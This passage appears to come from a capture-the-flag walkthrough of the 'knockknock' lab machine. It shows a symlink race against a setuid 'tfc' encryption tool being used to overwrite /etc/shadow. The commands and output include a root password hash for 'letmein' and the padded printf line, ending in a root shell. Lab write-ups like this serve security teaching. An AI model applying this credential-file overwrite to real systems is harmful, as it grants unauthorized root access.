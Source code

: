 It worked! /etc/motd had been modified. Writing encrypted text into /etc/motd isn't particularly useful, but recall that passing the encrypted file as the input file to tfc will decrypt it. This means I can write the non-encrypted content into any file of my choosing. To get root, I decided to overwrite /etc/shadow.

/etc/shadow usually contains the entry for the root user on the first line. The plan was to use the root entry in my machine's /etc/shadow and use it to overwrite the one in the target's /etc/shadow. First, I changed the password for the root user on my machine to letmein

```
root@kali ~
# passwd
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully

root@kali ~
# head -1 /etc/shadow
root:$6$.WE9h/iH$av2inUwf3wz7aKz5w29PLPhL0qebUpnERqUiw7YA75Pn45bvlX4fb8FArmddCgoF87gqX8PyyMOg6toVsCffi0:16359:0:99999:7:::
```

I copied the updated root entry and padded it with some newlines, and saved it into in.tfc on the target and encrypted it, saving the output file as in2.tfc. The reason I padded it with new lines was because I wasn't sure how long root's entry was in /etc/shadow on the target. In my initial test with /etc/motd, it didn't blow the file away completely, but instead started writing to it from the beginning. By providing newlines, I ensured that I wouldn't end up with a corrupted entry. 

```
jason@knockknock:~$ printf 'root:$6$.WE9h/iH$av2inUwf3wz7aKz5w29PLPhL0qebUpnERqUiw7YA75Pn45bvlX4fb8FArmddCgoF87gqX8PyyMOg6toVsCffi0:16359:0:99999:7:::\n\n\n\n' > in.tfc
jason@knockknock:~$ 
jason@knockknock:~$ ./tfc in.tfc in2.tfc
>> File crypted, goodbye!
```

I updated race.c to create a symbolic link to /etc/shadow instead of /etc/motd, and then I recompiled it and executed it. Now for the magic! There was no way to read the contents of /etc/shadow to see if the race condition was exploited, so the only way to test was to try to su to root and provide my password letmein. If it worked, then I'd have a root shell. 

```
jason@knockknock:~$ ./tfc in2.tfc out.tfc 
>> File crypted, goodbye!
jason@knockknock:~$ su - 
Password: 
su: Authentication failure
jason@knockknock:~$ ./tfc in2.tfc out.tfc 
>> No symbolic links!
jason@knockknock:~$ ./tfc in2.tfc out.tfc 
>> File crypted, goodbye!
jason@knockknock:~$ su - 
Password: 
su: Authentication failure
jason@knockknock:~$ ./tfc in2.tfc out.tfc 
>> File crypted, goodbye!
jason@knockknock:~$ su - 
Password: 
root@knockknock:~# id
uid=0(root) gid=0(root) groups=0(root)
root@knockknock:~# 
```
